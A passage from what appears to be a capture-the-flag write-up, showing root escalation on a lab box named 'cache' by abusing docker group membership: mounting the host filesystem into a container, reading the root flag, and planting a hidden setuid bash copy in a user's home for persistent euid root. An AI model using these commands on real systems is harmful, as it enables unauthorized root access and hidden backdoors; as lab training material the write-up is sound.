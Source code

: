 ```

luffy@cache:~$ docker run -v /:/mnt -i -t ubuntu bash
root@67fd1a66bece:/#

```

Now I can access `root.txt`:

```

root@67fd1a66bece:/mnt/root# cat root.txt
e9f560a0************************

```

### root Shell

There’s a ton of ways to go from file system access to shell. For example, make a suid copy of `bash`:

```

root@db2fa4542744:/mnt# cp bin/bash home/luffy/.local/.0xdf
root@db2fa4542744:/mnt# ls -l home/luffy/.local/.0xdf
-rwxr-xr-x 1 root root 1113504 May 12 00:46 home/luffy/.local/.0xdf
root@db2fa4542744:/mnt# chmod 4755 home/luffy/.local/.0xdf
root@db2fa4542744:/mnt# ls -l home/luffy/.local/.0xdf
-rwsr-xr-x 1 root root 1113504 May 12 00:46 home/luffy/.local/.0xdf

```

Now exit the container, and run it (with `-p`):

```

luffy@cache:~$ .local/.0xdf -p
.0xdf-4.4# id
uid=1001(luffy) gid=1001(luffy) euid=0(root) groups=1001(luffy),999(docker)

```